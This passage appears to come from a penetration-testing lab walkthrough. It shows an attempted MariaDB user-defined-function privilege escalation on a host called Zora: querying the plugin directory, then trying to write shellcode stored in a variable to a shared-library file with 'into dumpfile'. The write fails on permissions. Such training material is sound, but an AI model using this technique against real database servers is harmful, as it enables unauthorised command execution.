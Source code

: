 ```
MariaDB [(none)]> select @@plugin_dir;
+-------------------+
| @@plugin_dir      |
+-------------------+
| /home/dev/plugin/ |
+-------------------+
1 row in set (0.072 sec)
```

As expected, the plugin directory is in /home/dev/plugin/. Next, we need to output the shellcode to a file on Zora. The original exploit generates a random filename for this, but we can name it whatever we want. The command in Listing 65 tells MariaDB to treat the contents of the _@shell_ variable as binary and to output it to the /home/dev/plugin/udf_sys_exec.so file.

```
MariaDB [(none)]> select binary @shell into dumpfile '/home/dev/plugin/udf_sys_exec.so';
ERROR 1045 (28000): Access denied for user 'wp'@'%' (using password: YES)
MariaDB [(none)]>
```

Unfortunately, this is where we encounter our first problem. According to the error message above, the wp user does not have permissions to create files.